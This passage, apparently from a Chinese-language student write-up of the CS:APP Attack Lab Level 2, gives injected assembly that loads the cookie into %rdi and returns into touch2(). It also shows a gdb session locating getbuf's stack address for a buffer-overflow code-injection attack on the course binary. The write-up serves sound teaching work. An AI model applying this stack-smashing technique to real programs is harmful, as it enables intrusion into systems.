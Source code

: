 #### Level 2

第二题我们要做的是调用 `touch2()` 并提供正确的 `cookie` 值，我们需要先写出相应的汇编代码，并将之通过 WriteUp 的附录 B 提供的方法转换成字节表示即可。汇编码如下：

```asm
mov $0x59b997fa,%rdi
ret
```

将之处理后我们需要确定 `getbuf()` 的栈顶位置，这个使用 gdb 可以很容易就发现：

```
name1e5s@sumeru:~/csapp/attacklab-name1e5s/target1$ gdb ./ctarget
GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./ctarget...done.
(gdb) set args -q
(gdb) b getbuf
Breakpoint 1 at 0x4017a8: file buf.c, line 12.
(gdb) run
Starting program: /home/name1e5s/csapp/attacklab-name1e5s/target1/ctarget -q
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:12
12      buf.c: No such file or directory.
(gdb) ni
14      in buf.c
(gdb) disas
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
=> 0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
End of assembler dump.
(gdb) i r
rax            0x0      0
rbx            0x55586000       1431855104
rcx            0x0      0
rdx            0x7ffff7dd18c0   140737351850176
rsi            0xc      12
rdi            0x606260 6316640
rbp            0x55685fe8       0x55685fe8
rsp            0x5561dc78       0x5561dc78
r8             0x7ffff7fed540   140737354061120
r9             0x0      0
r10            0x4032b4 4207284
r11            0x7ffff7b72f50   140737349365584
r12            0x2      2
r13            0x0      0
r14            0x0      0
r15            0x0      0
rip            0x4017ac 0x4017ac <getbuf+4>
```